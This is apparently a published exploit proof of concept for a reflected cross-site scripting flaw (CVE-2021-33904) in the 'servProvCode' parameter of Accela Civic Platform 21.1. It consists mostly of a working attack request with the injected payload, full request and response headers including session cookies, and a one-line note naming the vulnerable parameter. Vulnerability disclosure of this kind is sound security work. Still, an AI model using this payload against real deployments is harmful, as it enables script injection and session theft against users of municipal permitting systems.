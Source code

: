     # Exploit Title: Accela Civic Platform 21.1 - 'servProvCode' Cross-Site-Scripting (XSS)
    # Exploit Author: Abdulazeez Alaseeri
    # Software Link: https://www.accela.com/civic-platform/
    # Version: <= 21.1
    # Tested on: JBoss server/windows
    # Type: Web App
    # Date: 06/07/2021
    # CVE: CVE-2021-33904


    ================================================================
    Accela Civic Platform Cross-Site-Scripting <= 21.1
    ================================================================


    ================================================================
    Request Heeaders start
    ================================================================

    GET /security/hostSignon.do?hostSignOn=true&servProvCode=k3woq%22%5econfirm(1)%5e%22a2pbrnzx5a9 HTTP/1.1

    Host: Hidden for security reasons

    Cookie: JSESSIONID=FBjC0Zfg-H87ecWmTMDEcNo8HID1gB6rwBt5QC4Y.civpnode; LASTEST_REQUEST_TIME=1623004368673; g_current_language_ext=en_US; hostSignOn=true; BIGipServerAccela_Automation_av.web_pool_PROD=1360578058.47873.0000; LATEST_SESSION_ID=lVkV3izKpk9ig1g_nqSktJ3YKjSbfwwdPj0YBFDO; LATEST_WEB_SERVER=1.1.1.1; LATEST_LB=1360578058.47873.0000

    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

    Accept-Language: en-US,en;q=0.5

    Accept-Encoding: gzip, deflate

    Upgrade-Insecure-Requests: 1

    Te: trailers

    Connection: close

    ================================================================
    Request Heeaders end
    ================================================================



    ================================================================
    Response Heeaders start
    ================================================================
    HTTP/1.1 200 OK

    Expires: Wed, 31 Dec 1969 23:59:59 GMT

    Cache-Control: no-cache

    X-Powered-By: JSP/2.3

    Set-Cookie: LASTEST_REQUEST_TIME=1623004478373; path=/; domain=.Hidden for security reasons; secure

    Set-Cookie: g_current_language_ext=en_US; path=/; domain=.Hidden for security reasons; secure

    Set-Cookie: hostSignOn=true; path=/; domain=.Hidden for security reasons; secure

    X-XSS-Protection: 0

    Pragma: No-cache

    Date: Sun, 06 Jun 2021 18:34:38 GMT

    Connection: close

    Content-Type: text/html;charset=UTF-8

    Content-Length: 13222
    ================================================================
    Response Heeaders end
    ================================================================


    You can notice that the parameter "servProvCode" is vulnerable to XSS.
    Payload: k3woq%22%5econfirm(1)%5e%22a2pbrnzx5a9
